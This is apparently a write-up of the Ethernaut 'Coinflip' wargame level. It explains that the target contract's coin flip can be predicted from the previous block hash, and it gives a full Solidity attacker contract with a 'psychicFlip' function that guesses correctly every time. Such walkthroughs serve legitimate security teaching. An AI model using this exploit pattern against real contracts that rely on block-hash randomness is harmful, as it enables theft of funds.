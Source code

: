 # [3. Coinflip](https://ethernaut.openzeppelin.com/level/0x4dF32584890A0026e56f7535d0f2C6486753624f)

In this attack, we will guess the supposed "random" flips by calling the attack from our contracts. The target contract is programmed to flip a coin on each block, so each guess we make must be on different blocks.

We can simply copy and paste their `flip` function in our contract, and then call their actual `flip` function based on the result. Here is our attacking contract with a `psychicFlip` function that always guesses correctly:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/math/SafeMath.sol";

// interface for target
interface CoinFlip {
  function flip(bool _guess) external returns (bool);
}

contract Attacker {
  CoinFlip coinflipTarget;
  using SafeMath for uint256; 

  constructor(address _target) {
    coinflipTarget = CoinFlip(_target);
  }

  function psychicFlip() public {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    uint256 coinFlip = blockValue.div(57896044618658097711785492504343953926634992332820282019728792003956564819968);
    bool side = coinFlip == 1 ? true : false;
    
    bool result = coinflipTarget.flip(side);
    require(result, "Could not guess, abort mission.");
  }
}
```

That is pretty much it!
